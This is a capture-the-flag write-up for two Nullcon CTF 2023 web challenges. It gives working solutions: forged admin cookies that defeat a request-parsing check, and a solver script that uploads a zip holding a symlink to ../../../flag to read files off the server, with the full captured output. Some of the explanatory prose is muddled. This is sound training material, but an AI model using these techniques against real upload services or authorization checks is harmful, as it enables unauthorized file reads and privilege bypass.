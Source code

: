 ```yaml
---
title: "Nullcon CTF 2023"
description: ""
summary: ""
date: 2023-03-10T19:25:00+07:00
lastmod: 2023-03-11T07:41:00+07:00
draft: false
menu:
  posts:
    parent: ""
    identifier: "nullconctf-2023"
weight: 910
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  noindex: false # false (default) or true
---
```


[https://ctftime.org/event/1900](https://ctftime.org/event/1900)

<br>
<p align="center">
  <a href="https://ctftime.org/event/1900" target="_blank">
    <img src="https://ctftime.org/media/cache/a3/83/a3838829dc3fcbbebcc062b58d405747.png">
  </a>
</p>

### Challs
| Category | Challenge |
| ---------| --------- |
| Web      | [reguest](#reguest) |
| Web      | [zpr](#zpr) |

<br>

### reguest

<details>
  <summary>Description</summary>
  
  > Desc: HTTP requests and libraries are hard. Sometimes they do not behave as expected, which might lead to vulnerabilities. <br>
  > http://52.59.124.14:10014 <br>

  > [chall.zip](https://github.com/nopedawn/CTF/blob/main/NullconCTF23/reguest/chall.zip)
  
</details>

We can send an HTTP GET request using the cURL utility to the address [http://52.59.124.14:10014](http://52.59.124.14:10014), including a cookie in the request header.

```python {title="Send HTTP GET"}
import requests

url = 'http://52.59.124.14:10014'
cookies = {'role': 'admin', 'really': 'yes'}
resp = requests.get(url, cookies=cookies)

print(resp.content.decode())
```

The -b argument is used to specify the cookie that will be included in the request header. The value of the cookie is `role=admin; really=yes`. This cookie can be used by the server for authentication or other settings.

In this case, the request is targeted to a web service that requires authorization at the 'admin' level and requests confirmation from the user ('really=yes').

Or use this simple payloads

```bash {title="bash"}
$ curl -b "role=admin; really=yes" http://52.59.124.14:10014

Usage: Look at the code ;-)

Overwriting cookies with default value! This must be secure!
Prepared request cookies are: [('really', 'yes'), ('role', 'guest')]
Sending request...
Request cookies are: [('really', 'yes'), ('role', 'guest')]

Someone's drunk oO

Response is: Admin: ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}
```

<details>
  <summary>Flag</summary>
  
  > `ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}`
  
</details>

<br>

### zpr

<details>
  <summary>Description</summary>
  
  > My colleague built a service which shows the contents of a zip file. He says there's nothing to worry about.... <br>
  > http://52.59.124.14:10015 + http://52.59.124.14:10016
  
  > [chall.zip](https://github.com/nopedawn/CTF/blob/main/NullconCTF23/zpr/chall.zip)
  
</details>

Create a txt file `coba.txt` that has text `../../../flag` indicate as the path. The soft link will refer to the original file, so changes made to the original file will also be visible in the symlink.

```bash {title="bash"}
$ ln -sfn ../../../flag coba.txt
```

The `coba.txt` file will be blank and it turn into a symlink

<details open>
<summary>coba.txt</summary>
<pre>

</pre>
</details>

Then zip into file named `test.zip` that contains the file `coba.txt`. The --symlink argument in this command indicates that the soft link coba.txt will be included in the zip file. Send the test.zip file to the server using the POST method with the help of the curl library.

```bash {title="bash"}
$ zip test.zip coba.txt --symlink
```

Make an HTTP GET request to the server `https://52.59.124.14:10016` to access the file `coba.txt` located in the directory. In the HTTP request header, the -v argument in the curl command indicates that the displayed output will include verbose information about the HTTP request process. Therefore, in addition to the contents of the coba.txt file, the output of the curl command will display information such as status code, header, and server response time.

Final script solver

```python {title="solver.py" lineNos=true lineNoStart=1}
import os
import requests

os.system('ln -sfn ../../../flag coba.txt')
os.system('zip test.zip coba.txt --symlink')

files = {'file': ('test.zip', open('test.zip', 'rb'), 'application/zip')}
response = requests.post('http://52.59.124.14:10015/', files=files)

print(response.text)

if "coba.txt" in response.text:
    filepath = response.text.strip()
    filepath_parts = filepath.split("/")
    directory = filepath_parts[-2]
    url = f"http://52.59.124.14:10016/{directory}/coba.txt"
    os.system(f"curl -v {url}")
```

Running

```bash {title="running"}
$ python3 solver.py
updating: coba.txt (stored 0%)
Found a file: /tmp/data/eef19175f624ce410f0eb8aff0e87525/bd361131b238f364b10edcc61a356ff9.zip
Found a file: /tmp/data/eef19175f624ce410f0eb8aff0e87525/coba.txt
Find your files at http://...:8088/eef19175f624ce410f0eb8aff0e87525/

*   Trying 52.59.124.14:10016...
* Connected to 52.59.124.14 (52.59.124.14) port 10016 (#0)
> GET /eef19175f624ce410f0eb8aff0e87525/coba.txt HTTP/1.1
> Host: 52.59.124.14:10016
> User-Agent: curl/7.81.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Server: SimpleHTTP/0.6 Python/3.11.2
< Date: Fri, 10 Mar 2023 12:57:01 GMT
< Content-type: text/plain
< Content-Length: 46
< Last-Modified: Thu, 09 Mar 2023 09:00:53 GMT
<
ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}
* Closing connection 0
```

<details>
  <summary>Flag</summary>
  
  > `ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}`
  
</details>